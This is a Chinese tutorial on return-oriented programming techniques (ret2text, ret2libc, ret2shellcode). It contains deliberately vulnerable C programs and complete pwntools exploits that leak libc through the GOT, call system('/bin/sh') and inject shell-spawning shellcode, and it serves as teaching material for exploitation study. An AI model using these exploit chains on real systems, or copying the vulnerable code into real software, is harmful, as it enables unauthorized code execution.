

## 前言

前面我们已经了解了基本的ROP原理，这一章主要整合了常用的ROP技巧。（这里仅仅是记录了我所知的技巧，欢迎各位师傅补充）

## ret2xxx系列

学习ROP的过程中经常会看到如`ret2text`，`ret2libc`，`ret2syscall`等利用手法，`ret2`后面的内容便是ROP链中各种函数，gadget的来源。

**注意：这些并不是某个完整的利用方法，而是某个完整的利用方法的一部分**

### ret2text

`ret2text`就是利用下图中ELF部分中储存可执行代码的部分（即`.text`段），如前一章中的ROP的例子便是`ret2text`


### ret2libc

`ret2libc`则是用dynamic link libraries中的gadget（虽然这个利用方法叫做`ret2libc`，但是所有连接进来的动态链接库都可以作为gadget的来源）


`ret2libc`和`ret2text`类似，但是由于动态链接库的特性所致，在利用时多出了一步，便是泄漏动态链接库的基地址。关于泄漏基地址，这里就要引入两个关于链接库装载的表，`got`表和`plt`表。这里就不详细解释了，仅仅是简单的讲讲其基本的工作流程。

因为动态链接库的加载时的基地址是随机的，所以当程序调用动态链接库中的函数的时候，实际是转跳到预留在程序中的函数入口，即`plt`。而执行到`plt`中后，会先检查对应的函数是否已经加载，如果已经加载，则根据`got`表中记录的地址转跳实际的函数地址。否则先调用加载函数（加载后的函数的地址记录在`got`表中），再转跳到对应的函数。大致的流程图如下：



由此，我们可以知道加载之后的函数地址储存在`got`表中，那么我们就可以想办法将`got`表中的内容输出出来，然后减去偏移，从而实现泄漏动态链接库的基地址（这里计算基地址的原理是动态链接库的加载也是通过映射文件实现的，一个链接库映射到一段连续的内存空间）。拿到基地址之后我们就可以加上偏移获得所需函数或者gadget。

以下面这个程序为例，目标是获取shell

```c
// gcc test.c -no-pie -fno-stack-protector -g
#include <stdio.h>

int main() {
    char str[0x20];
    puts("Hello, world!");

    read(0, str, 0x100);

    return 0;
}
```

可以得到如下脚本：

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
# context.terminal = ["konsole", "-e"]
context.arch = "amd64"

p = process("./a.out")

elf = ELF("./a.out")
libc = ELF("./libc-2.31.so")

pop_rdi = 0x00000000004011F3

puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]

main_addr = elf.sym["main"]

payload = b"a" * 0x28
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main_addr)

p.send(payload)

puts_addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
log.success("puts_addr: " + hex(puts_addr))
libc_base = puts_addr - libc.sym["puts"]
log.success("libc_base: " + hex(libc_base))

system_addr = libc_base + libc.sym["system"]
binsh_addr = libc_base + next(libc.search(b"/bin/sh"))

payload = b"a" * 0x28
payload += p64(pop_rdi)
payload += p64(binsh_addr)
payload += p64(system_addr)

gdb.attach(p)
p.send(payload)

p.interactive()
```

但是通过调试会发现程序会在执行到下图这个阶段的时候无法正常执行。这个是因为`xmm0`等寄存器是128位的，当往内存里存取值的时候，指针需要对齐到`0x10`，而此时`rsp + 0x50`的末位为8，并没有对齐，最终导致程序异常。


解决方法也很简单，只需在payload中加一个`ret`即可（具体原理就留给大家自己思考了）。最终脚本如下：

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
# context.terminal = ["konsole", "-e"]
context.arch = "amd64"

p = process("./a.out")

elf = ELF("./a.out")
libc = ELF("./libc-2.31.so")

pop_rdi = 0x00000000004011F3
ret = 0x000000000040101A

puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]

main_addr = elf.sym["main"]

payload = b"a" * 0x28
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main_addr)

p.send(payload)

puts_addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
log.success("puts_addr: " + hex(puts_addr))
libc_base = puts_addr - libc.sym["puts"]
log.success("libc_base: " + hex(libc_base))

system_addr = libc_base + libc.sym["system"]
binsh_addr = libc_base + next(libc.search(b"/bin/sh"))

payload = b"a" * 0x28
payload += p64(pop_rdi)
payload += p64(binsh_addr)
payload += p64(ret)
payload += p64(system_addr)

gdb.attach(p)
p.send(payload)

p.interactive()
```

下图就是栈帧的变化过程：


### ret2shellcode

如果程序的内存中有一段可写且可执行的内存的话（如没开NX保护时的栈，mmap申请出来的内存空间，mprotect修改权限后的内存等），可以通过提前向其中写入shellcode，然后再通过控制返回地址使程序执行shellcode。

ret2shellcode一般用于没开NX保护或需要实现的功能比较的复杂时使用（如反弹shell）。具体如何通过栈溢出控制程序流执行shellcode这里就不过多分析了，这里主要讲讲如何生成shellcode。以下面这个程序为例（目标是获取shell）：这个程序首先通过`mmap`申请了一块有执行权限的内存，起始地址为`0xdead0000`，然后通过`read`读入内容，同时后面还有一个栈溢出。

```c
// gcc test.c -no-pie -fno-stack-protector -g
#include <stdio.h>
#include <stdlib.h>

int main() {
    mmap(0xdead0000, 0x1000, 7, 0x21, -1, 0);

    char *p = (char *)0xdead0000;
    char str[0x20];

    read(0, p, 0x1000);

    read(0, str, 0x50);

    return 0;
}
```

对应的exp：

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
# context.terminal = ["konsole", "-e"]
context.arch = "amd64"

p = process("./a.out")

elf = ELF("./a.out")

p.send(asm(shellcraft.sh()).ljust(0x1000, b"\x00"))

payload = b"A" * 0x38
payload += p64(0xDEAD0000)
p.send(payload)

p.interactive()
```

上面这个exp中，`shellcraft.sh()`函数用于生成获取shell的shellcode的汇编指令，而`asm`函数用于将汇编指令转化为机器码。

### ret2syscall

咕咕咕


## 栈迁移

咕咕咕
